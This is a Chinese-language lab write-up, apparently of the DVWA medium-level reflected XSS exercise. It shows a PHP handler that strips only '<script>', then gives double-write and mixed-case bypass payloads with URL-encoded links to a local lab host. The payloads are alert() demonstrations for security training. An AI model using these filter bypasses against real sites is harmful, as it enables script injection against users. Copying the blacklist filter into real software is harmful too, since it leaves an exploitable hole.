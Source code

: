 
### Medium
服务器端核心代码
```
<?php 


// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Get input 
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    // Feedback for end user 
    echo "<pre>Hello ${name}</pre>"; 
} 
?>
```

可以看到，这里对输入进行了过滤，基于黑名单的思想，使用str_replace函数将输入中的<script>删除，这种防护机制是可以被轻松绕过的。

漏洞利用

1.双写绕过

输入

```
<sc<script>ript>alert(/xss/)</script>
```

成功弹框：

![image]({path}/66.png)

相应的XSS链接：


```
http://192.168.1.210:9999/vulnerabilities/xss_r/?name=%3Csc%3Cscript%3Eript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
```

2.大小写混淆绕过

输入

```
<ScRipt>alert(/xss/)</script>
```

成功弹框：

![image]({path}/67.png)

相应的XSS链接：


```
http://192.168.1.210:9999/vulnerabilities/xss_r/?name=%3CScRipt%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
```
